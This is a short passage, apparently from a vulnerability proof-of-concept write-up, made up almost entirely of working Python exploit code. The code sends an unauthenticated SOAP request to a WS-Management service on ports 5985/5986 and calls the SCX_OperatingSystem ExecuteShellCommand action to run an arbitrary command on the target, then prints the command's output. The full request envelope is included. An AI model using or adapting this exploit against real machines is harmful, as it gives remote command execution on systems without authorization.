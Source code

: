 The POC just involves sending a POST request to 5986 (with TLS) or 5985
(without) with a SOAP XML request in the body:



    def exploit(target, command):
        headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
        r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
        output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
        error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
        if output:
            if output.group(1):
                print(output.group(1).rstrip('&#10;'))
        if error:
            if error.group(1):
                print(error.group(1).rstrip('&#10;'))



The body will have:



    DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
       <s:Header>
          <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
          <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
          <a:ReplyTo>
             <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
          </a:ReplyTo>
          <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
          <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
          <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
          <w:OperationTimeout>PT1M30S</w:OperationTimeout>
          <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
          <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
          <w:OptionSet s:mustUnderstand="true" />
          <w:SelectorSet>
             <w:Selector Name="__cimnamespace">root/scx</w:Selector>
          </w:SelectorSet>
       </s:Header>
       <s:Body>
          <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
             <p:command>{}</p:command>
             <p:timeout>0</p:timeout>
          </p:ExecuteShellCommand_INPUT>
       </s:Body>
    </s:Envelope>
    """
